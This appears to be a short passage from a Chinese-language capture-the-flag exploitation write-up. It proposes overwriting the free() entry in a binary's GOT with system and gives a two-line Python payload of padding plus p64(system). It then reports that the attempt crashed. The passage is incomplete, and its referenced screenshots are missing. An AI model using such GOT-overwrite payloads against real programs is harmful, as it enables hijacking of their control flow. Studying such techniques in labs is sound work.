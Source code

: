 
![upload successful](/images/pasted-141.png)



查看上图发现，got表中有free()，我们可以把它改为system。payload如下

```python
py = 'a'*14 + p64(system)
edit(8,len(py),py)
```

填入'a'报错，填入'\x00'，也报错。可能是改变了中间的有意义的值。

![upload successful](/images/pasted-142.png)
